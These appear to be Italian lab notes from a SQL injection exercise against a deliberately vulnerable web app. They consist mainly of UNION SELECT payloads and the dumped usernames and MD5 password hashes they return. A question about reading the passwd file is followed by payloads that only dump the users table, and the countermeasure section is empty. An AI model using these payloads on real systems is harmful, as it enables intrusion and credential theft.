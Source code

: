 \documentclass[11pt]{article}
\begin{document}
ID: 1' union select 1, password from users \# First name: 1 Surname:
8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' union select 1, password from users \# First name: 1 Surname:
0d107d09f5bbe40cade3de5c71e9e9b7

    \hypertarget{exercise-4-read-arbitrary-file-security-low}{%
\section{Exercise \#4: Read arbitrary file (security
low)}\label{exercise-4-read-arbitrary-file-security-low}}

    In linguaggio SQL (con la giusta funzione) è possibile leggere un file e
restituirlo come una stringa. Come hacker possiamo provare a leggere un
file dal sistema remoto. Il file che siamo sempre alla ricerca è
ovviamente il passwd in cui erano archiviati i sistemi Linux più vecchi
Le password. È possibile stampare con un'injection SQL il file della
password?

    ID: 1' union select 1, concat(user\_id, ' : ' , first\_name, ' : ' ,
last\_name, user, ' : ', password) from users \# First name: admin
Surname: admin

ID: 1' union select 1, concat(user\_id, ' : ' , first\_name, ' : ' ,
last\_name, user, ' : ', password) from users \# First name: 1 Surname:
1 : admin : adminadmin : 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' union select 1, concat(user\_id, ' : ' , first\_name, ' : ' ,
last\_name, user, ' : ', password) from users \# First name: 1 Surname:
2 : Gordon : Browngordonb : e99a18c428cb38d5f260853678922e03

ID: 1' union select 1, concat(user\_id, ' : ' , first\_name, ' : ' ,
last\_name, user, ' : ', password) from users \# First name: 1 Surname:
3 : Hack : Me1337 : 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' union select 1, concat(user\_id, ' : ' , first\_name, ' : ' ,
last\_name, user, ' : ', password) from users \# First name: 1 Surname:
4 : Pablo : Picassopablo : 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' union select 1, concat(user\_id, ' : ' , first\_name, ' : ' ,
last\_name, user, ' : ', password) from users \# First name: 1 Surname:
5 : Bob : Smithsmithy : 5f4dcc3b5aa765d61d8327deb882cf99

    \hypertarget{exercise-5-countermeasure}{%
\section{Exercise \#5: Countermeasure}\label{exercise-5-countermeasure}}
\end{document}
